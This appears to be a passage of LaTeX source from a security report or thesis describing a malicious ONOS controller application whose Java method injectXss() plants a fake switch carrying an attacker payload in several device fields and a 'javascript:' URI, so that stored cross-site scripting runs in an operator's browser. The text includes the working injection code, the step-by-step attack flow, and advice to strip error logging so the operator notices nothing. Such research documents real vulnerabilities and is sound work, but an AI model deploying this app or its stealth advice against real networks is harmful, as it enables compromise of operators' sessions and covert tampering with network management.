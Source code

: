 \documentclass[a4paper,10pt]{memoir}
\begin{document}
Within the \textbf{activate()} method which will automatically be called to activate the application, the \textbf{injectXss()} function is called.
This function creates a new device (or a switch) with the default characteristics and inserts the payload selected by the attacker in all possible fields. In particular, the URI is also created in a way that can create problems for the victim. In this case the fields where the malicious payload is entered are: manufacturer, hwVersion, swVersion and serialNumber. The device store is then used to save the data of the new device created using the \textbf{createOrUpdateDevice()} function. For testing purposes and to better understand if something doesn't work as it should everything is placed inside a try-catch block, obviously in a real attack this shouldn't be inserted to ensure that the network operator does not notice nothing, as few traces as possible are left and the attack is stealthy.
\begin{lstlisting}[language=java,firstnumber=72]
    private void injectXss() {
        try {
            URI uri = new URI("javascript:alert(1)");

            DeviceId dId = pickRandomDevice().id();

            ChassisId cId = new ChassisId(5);

            DefaultAnnotations sa = DefaultAnnotations.builder().build();

            DefaultDeviceDescription deviceDescription = new DefaultDeviceDescription(uri, Device.Type.SWITCH, PAYLOAD,
                    PAYLOAD, PAYLOAD, PAYLOAD, cId, sa);
            deviceStore.createOrUpdateDevice(ProviderId.NONE, dId, deviceDescription);

            log.info("Payload injected!");

        } catch (Exception e) {
            e.printStackTrace();
            StringWriter sw = new StringWriter();
            PrintWriter pw = new PrintWriter(sw);
            e.printStackTrace(pw);
            log.info(sw.toString());
            log.info("exception!!!!!!11!!!!11!");
        }
    }
\end{lstlisting}

This is how the attack will be carried out:
\begin{itemize}
    \item The application is activated and the device containing the malicious payload is created
    \item The victim logs in to the web application
    \item The victim requests the vulnerable web page
    \item The web page is built using the payloads
    \item The victim clicks on the device icon in the topology web page
    \item The victim clicks on the malicious link
    \item The malicious payload is executed in the victim's browser.
\end{itemize}
\end{document}
